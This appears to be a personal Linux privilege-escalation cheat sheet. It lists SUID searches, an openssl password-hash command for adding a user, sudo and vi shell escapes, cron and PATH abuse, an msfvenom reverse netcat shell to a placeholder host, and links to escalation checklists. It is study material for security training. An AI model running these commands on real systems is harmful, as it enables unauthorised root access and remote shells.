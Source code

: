 #PrivEsc #Linux 

[LinEnum](https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh)

## File permissions

r - 4
w - 2
x - 1

`find / -perm -u=s -type f 2>/dev/null` - Find SUID/GUID files on the system

`openssl passwd -1 -salt [salt] [password]` - Add a new password hash

`sudo -l` - List commands you can run as super user

[GTFOBins](https://gtfobins.github.io/): Curated list of Unix binaries that can be exploited, can elevate privileges if the program is listed with sudo

`:!sh` - Open a shell in vi

`cat /etc/crontab` - Check for Cron jobs

`msfvenom -p cmd/unix/reverse_netcat lhost=LOCALIP lport=8888 R` - A reverse shell to run with Cron

**PATH:** Environmental variable which specifies directories that hold executable programs, this is how the user searches for executable files when running commands

`echo $PATH` - View relevant path

`export PATH=/[path]:/[another path]:$PATH` - changing the path variable

## Linux Privesc checklist

- [https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md](https://github.com/netbiosX/Checklists/blob/master/Linux-Privilege-Escalation.md)
- [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md)
- [https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html](https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_-_linux.html)
- [https://payatu.com/guide-linux-privilege-escalation](https://payatu.com/guide-linux-privilege-escalation)